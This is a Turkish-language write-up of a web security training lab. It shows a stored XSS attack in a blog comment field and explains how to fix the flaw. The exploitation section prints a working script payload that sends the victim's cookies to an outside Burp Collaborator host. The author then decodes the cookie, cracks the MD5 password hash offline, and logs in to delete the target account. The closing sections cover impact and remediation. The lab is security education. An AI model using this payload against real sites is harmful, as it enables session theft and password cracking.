






# Offline password cracking

## 1. Lab Bilgisi

**Difficulty:** Practitioner

## 2. Vulnerability Özeti

Bu labda uygulama, `stay-logged-in` cookie değerini `base64(username:md5(password))` formatında oluşturuyor. Ayrıca blog yorum alanında stored XSS zafiyeti bulunduğu için saldırgan, hedef kullanıcının tarayıcısında JavaScript çalıştırarak cookie değerini kendi Burp Collaborator adresine gönderebiliyor. Ele geçirilen cookie Base64 decode edildiğinde hedef kullanıcının parola hash'i elde ediliyor ve bu hash offline olarak kırılarak parola bulunabiliyor.

## 3. Kullanılan Bilgiler

**Hedef kullanıcı:** `carlos`

**Sızdırılan cookie:** `stay-logged-in`

**Cookie formatı:** `base64(username:md5(password))`

**Ele geçirilen hash:** `26323c16d5f4dabff3bb136f2460a943`

**Bulunan parola:** `onceuponatime`

**Kullanılan teknik:** Stored XSS + offline hash cracking

## 4. Exploitation Steps

1. Blog post yorum alanına, hedef kullanıcının cookie bilgisini Burp Collaborator adresime gönderecek bir stored XSS payload'u ekledim. Payload içinde `document.cookie` değerini `/cookie?` parametresiyle Collaborator domainine gönderdim.

```html
<script>
fetch("https://j9ta4mx8320c1gpmjurn9a8g47ayyxmm.oastify.com/cookie?" + document.cookie)
</script>
```



2. Yorumu gönderdikten sonra Burp Collaborator sekmesinde DNS ve HTTP etkileşimleri oluştuğunu gördüm. HTTP request içinde hedef kullanıcının cookie değerleri yer alıyordu. Request'te `secret` cookie'siyle birlikte `stay-logged-in` cookie'si de sızmıştı.



3. Collaborator request'indeki `stay-logged-in` cookie değerini seçip Base64 decode ettim. Decode edilen değer `carlos:26323c16d5f4dabff3bb136f2460a943` formatındaydı. Böylece hedef kullanıcının username bilgisini ve MD5 parola hash'ini elde ettim.



4. Elde edilen `26323c16d5f4dabff3bb136f2460a943` hash değerini hash cracking servisine verdim. Hash'in MD5 olduğu ve karşılığının `onceuponatime` parolası olduğu tespit edildi.



5. Bulunan `carlos:onceuponatime` bilgileriyle login oldum ve hedef kullanıcının `/my-account` sayfasına eriştim.



6. Hesap sayfasındaki `Delete account` butonunu kullanarak `carlos` hesabını sildim. Hesap silindikten sonra lab çözüldü.



## 5. Impact

Stored XSS zafiyeti nedeniyle saldırgan hedef kullanıcının tarayıcısında JavaScript çalıştırarak cookie bilgilerini ele geçirebilir. `stay-logged-in` cookie'si parola hash'i içerdiği için bu durum yalnızca oturum ele geçirmeye değil, hedef kullanıcının parolasının offline olarak kırılmasına da yol açar. Kullanıcı aynı parolayı farklı sistemlerde kullanıyorsa etki uygulama dışına da taşabilir.

## 6. Remediation

Yorum gibi kullanıcı kontrollü alanlarda stored XSS oluşmasını engellemek için input validation, context-aware output encoding ve uygun Content Security Policy uygulanmalıdır. Oturum ve kalıcı giriş cookie'leri `HttpOnly`, `Secure` ve `SameSite` attribute'larıyla korunmalı, JavaScript tarafından okunabilir olmamalıdır. Kalıcı oturum token'ları kullanıcı adı ve parola hash'i gibi tahmin edilebilir bilgilerden türetilmemeli; kriptografik olarak rastgele, server-side saklanan ve gerektiğinde iptal edilebilen token'lar kullanılmalıdır. Parolalar MD5 gibi hızlı algoritmalarla değil, salt içeren `bcrypt`, `scrypt` veya `Argon2` gibi parola saklama algoritmalarıyla korunmalıdır.
